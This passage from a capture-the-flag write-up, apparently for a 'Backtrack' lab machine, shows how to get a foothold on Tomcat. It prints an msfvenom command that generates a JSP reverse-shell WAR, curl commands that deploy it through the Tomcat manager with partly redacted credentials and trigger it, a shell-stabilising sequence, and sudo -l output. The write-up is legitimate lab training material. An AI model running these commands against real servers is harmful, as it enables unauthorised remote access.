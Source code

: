 We got the password of tomcat, let's authenticate.

![tomcat](3.png)

We got access denied.

## **Foothold**

There is another way to exploit tomcat and it is through the command line.

First we need to generate a malicious `.war` file using msfvenom

```terminal
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```

We upload the file with `curl` using the following command:

```bash
curl --upload-file revshell.war -u 'tomcat:OP[REDACTED]fr' "http://10.10.76.96:8080/manager/text/deploy?path=/shell"
```

We setup a listener and trigger the reverse shell with the following command:

```bash
curl http://10.10.76.96:8080/shell/
```

![shell](4.png)

## **Privilege Escalation**

### tomcat --> wilbur

First let's get a stable shell with python pty.

```terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@Backtrack:/$ export TERM=xterm
export TERM=xterm
tomcat@Backtrack:/$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[]─[10.9.1.8]─[sirius@parrot]─[~/ctf/thm/backtrack]
└──╼ [★]$ stty raw -echo ;fg
nc -lvnp 9001

tomcat@Backtrack:/$
```

Running `sudo -l` we find this:

```terminal
tomcat@Backtrack:/$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-                                             
[WARNING]: Skipping plugin (/usr/lib/python3/dist